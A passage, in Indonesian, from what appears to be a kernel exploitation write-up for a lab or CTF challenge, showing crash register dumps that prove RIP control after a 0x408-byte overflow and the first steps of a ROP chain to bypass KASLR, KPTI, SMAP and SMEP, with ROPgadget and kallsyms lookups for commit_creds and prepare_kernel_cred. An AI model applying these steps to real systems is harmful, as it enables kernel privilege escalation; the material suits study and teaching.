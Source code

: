```bash
RIP: 0010:0x4141414141414141
Code: Unable to access opcode bytes at RIP 0x4141414141414117.
RSP: 0018:ffffc9000050feb8 EFLAGS: 00000202
RAX: 0000000000000410 RBX: ffff8880032ced00 RCX: 0000000000000000
RDX: 000000000000007f RSI: ffffc9000050fea8 RDI: ffff8880033d5400
RBP: 4141414141414141 R08: ffffffff81ea4608 R09: 0000000000004ffb
R10: 00000000fffff000 R11: 3fffffffffffffff R12: 0000000000000410
R13: 0000000000000000 R14: 00007ffdf552f6a0 R15: ffffc9000050fef8
FS:  00000000004ba380(0000) GS:ffff888007600000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 4141414141414141 CR3: 0000000003240000 CR4: 00000000003006f0


```

register RIP memang tertimpa, tapi yang saya ingin ketahui adalah berapa byte yang kita perlukan untuk mengontrol RIP?. 0x410 masih terlalu besar, lalu saya mencoba lagi dengan mengirim buffer sebanyak 0x408. ini hasilnya:

```bash
RIP: 0010:vfs_write+0xe6/0x280
Code: df e8 8e 35 8c 00 49 89 c5 4d 85 ed 7f 36 48 8b 53 20 0f b7 02 66 25 00 f9
RSP: 0018:4141414141414119 EFLAGS: 00000a87
RAX: 0000000000000408 RBX: ffff888003387800 RCX: ffff8880024cc800
RDX: ffff88800337eac0 RSI: 0000000000000000 RDI: ffff888002b479c0
RBP: 4141414141414141 R08: ffffffff81ea4608 R09: ffff88800337eac0
R10: 0000000000000002 R11: ffff888003387810 R12: 0000000000000408
R13: 0000000000000408 R14: 00007ffeba2c60e0 R15: ffffc90000557ef8
FS:  00000000004ba380(0000) GS:ffff888007600000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 4141414141414108 CR3: 000000000334c000 CR4: 00000000003006f0

```

menariknya adalah nilai pada RSP juga tertimpa kali ini, dan RIP berisi suatu pointer fungsi dari vfs_write, yang bisa kita manfaatkan untuk menghitung alamat basis kernel. kita bisa mengontrol rip setelah mengirim buffer sebesar 0x408 byte. itu yang saya maksudkan, jadi ayo kita buat exploitnya yang sekaligus membypass mitigasi KASLR, KPTI, SMAP dan SMEP.

tapi pertama, kita harus mencari gadget untuk melakukan ROP. saya menggunakan ROPgadget dan hanya mengambil offset dasarnya saja:

```bash
ROPgadget --binary ./vmlinux | grep "pop rdi"
ROPgadget --binary ./vmlinux | grep "pop rcx"
ROPgadget --binary ./vmlinux | grep "mov rdi"
```
lalu kita jalankan qemu untuk mencari offset:

```bash
cat /proc/kallsyms | grep commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
cat /proc/kallsyms | grep swapgs
```
